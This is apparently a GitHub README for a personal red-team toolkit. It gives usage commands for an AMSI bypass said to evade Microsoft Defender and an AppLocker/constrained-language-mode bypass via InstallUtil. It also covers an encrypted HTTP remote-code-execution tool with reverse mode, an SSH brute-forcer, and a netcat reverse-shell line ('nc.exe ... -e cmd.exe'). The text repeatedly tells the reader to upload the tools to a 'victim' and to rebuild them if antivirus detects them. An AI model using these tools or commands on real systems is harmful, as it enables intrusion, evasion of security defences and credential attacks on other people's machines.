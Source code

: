 # Some custom tools for redteaming
I prefer to write my own tool for my own use because of the following reasons:
- improve programming skills
- understand how the tool works
- easily bypass AV
 
You can use the tools in pentest or redteam work. If the tool is detected by AV, don't worry, edit the code a bit and then build again. :)

## Developing...
* [ ] TShell - Basic shell like C2 Framework which can easily bypass AV and applocker
* [ ] DNS Tunnel - Get sensitive data through DNS

## List of my tools


### AMSI
---
Golang amsi bypass, currently undetected by Microsoft Defender and possibly other AV solutions
- Usage:
  - Download [amsi.exe](https://github.com/namcuongq/security/blob/main/amsi/amsi.exe) and upload to victim
  - Run amsi.exe and enjoy it.
####
  *Note: if you want to add add parameter to program or open any exe file with bypass amsi mode, You only need put them into file with name godpay in the same directory amsi.exe. Example godpay file:*
  ```
  powershell ipconfig
  or 
  C:\Users\Public\nc.exe 192.168.0.19 8080 -e cmd.exe
  ```
  
### Bypass-CLM
---

- This will build an executable which executes a Full Language Mode powershell session. This method will provide a full powershell session just like running powershell.exe, but not powershell.
- If AppControl is enabled, you can run it with InstallUtil.
- Download [bypass-clm](https://github.com/namcuongq/security/tree/main/bypass-clm) and open it with Visual Studio, then build it.
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U "bypass-clm.exe"
```

### Dir_Server
---
[dir_server](https://github.com/namcuongq/security/tree/main/dir_server) Simple directory listing in http-server like python http-simple-server. You can use it for download file.
```
dir_server [dir] [listen address]
```

### Forward_Tcp
---
[forward_tcp](https://github.com/namcuongq/security/tree/main/forward_tcp) Simple way to create a tunnel from special port to another. Tool like socat but usage very easy.

```
forward_tcp [src] [dst]
```

### NCC
---
Simple Remote Code Execution Tool via http or https which is normally not blocked and to the destination server, effectively bypassing the restrictions on firewall. It works like netcat but only for RCE purposes. All transmitted data is encrypted to avoid detection. It can work in 2 modes normal and reverse:
- normal 
  - In kali(server)
  ```
  ncc -l -s <kali ip>:<port>
  ```
  - In victim
  ```
  ncc -s <kali ip>:<port> -e
  ```
- reverse
  - In kali 
  ```
  ncc -s <victim ip>:<port>
  ```
  - In victim(server)
  ```
  ncc -l -s <victim ip>:<port> -e
  ```

### SSH_Brute
---
[ssh_brute](https://github.com/namcuongq/security/tree/main/ssh_brute) Small tool to help brute force ssh
```
ssh_brute -u <user> -p <password> -h <host>
ssh_brute -U <user file> -P <password file> -hH <host file>
```
  
